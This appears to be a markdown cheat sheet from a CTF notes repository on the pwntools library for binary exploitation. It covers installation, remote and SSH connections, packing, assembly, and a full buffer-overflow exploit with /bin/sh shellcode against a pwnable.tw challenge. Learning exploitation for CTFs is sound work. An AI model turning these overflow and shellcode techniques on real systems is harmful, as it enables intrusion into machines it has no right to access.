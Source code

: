 # Binary Exploitation

## [Pwntools](https://github.com/Gallopsled/pwntools)
A grab-bag of tools to make writing exploits for CTFs easy!

### Install
```
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```

### Usage
Include in file:
```python
from pwn import *
``` 

#### [Making Connections](http://docs.pwntools.com/en/stable/tubes.html#module-pwnlib.tubes)
##### [Netcat](http://docs.pwntools.com/en/stable/tubes/sockets.html#module-pwnlib.tubes.remote)
``` python
connection = remote(host, port)

# Example:
r = remote('pwn.hsctf.com', 1234)
# Same as 'nc pwn.hsctf.com 1234'
```

##### [SSH](http://docs.pwntools.com/en/stable/tubes/ssh.html#module-pwnlib.tubes.ssh)
```python
session = ssh(username, host, password=passwd)

# Example:
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')
# Same as 'ssh bandit@bandit.labs.overthewire.org'
```


#### [Interacting with Processes](http://docs.pwntools.com/en/stable/tubes/processes.html#module-pwnlib.tubes.process)
```python
r = remote('12.123.45.324', 666)
r.recvline()
r.send("test\r\n")
r.interactive()
...
r.close()
```

```python
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')

sh = session.process('sh')
sh.sendline('echo Hello, world!')
sh.recvline(timeout=5)
sh.interactive()
...
s.close()
```


#### [Packing Integers](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing)
```python
win = p32(0xdeadbeef) # Packs 32-bit int, converts to little-endian
# Same as '\xef\xbe\xad\xde'

# Example:
buf = 'A'*20
win = p32(0xdeadbeef) 
payload = buf + win

r.sendline(payload)
r.interactive()
```


#### [Assembly and Disassembly](http://docs.pwntools.com/en/stable/asm.html#module-pwnlib.asm)

```python
asm('mov eax, 0').encodde('hex') # 'b800000000'

disasm('6a0258cd80ebf9'.decode('hex'))
#   0:   6a 02                   push   0x2
#   2:   58                      pop    eax
#   3:   cd 80                   int    0x80
#   5:   eb f9                   jmp    0x0

# Example: 
shellcode = asm('\n'.join([   # Shell code that will run /bin/sh when executed
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80']))

payload = "A"*20  + p32(esp + 20) + shellcode 
r.send(payload)
r.interactive()
```

##### [Shellcode generation - You don't need to write your own shellcode!](http://docs.pwntools.com/en/stable/shellcraft.html#module-pwnlib.shellcraft)


#### [Setting Target Architecture and OS](http://docs.pwntools.com/en/stable/intro.html#setting-the-target-architecture-and-os)
```python
context.arch      = 'i386'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 32

# or

context(arch='arm', os='linux', endian='big', word_size=32)
```

### Example Program
```python
from pwn import *

def leak_esp(r):
	address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
	payload = 'A'*20 + address_1
	print r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	print "Address of ESP: ", hex(esp)
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
    r.interactive()
```

### [Other Example Programs](https://github.com/Gallopsled/pwntools-write-ups)
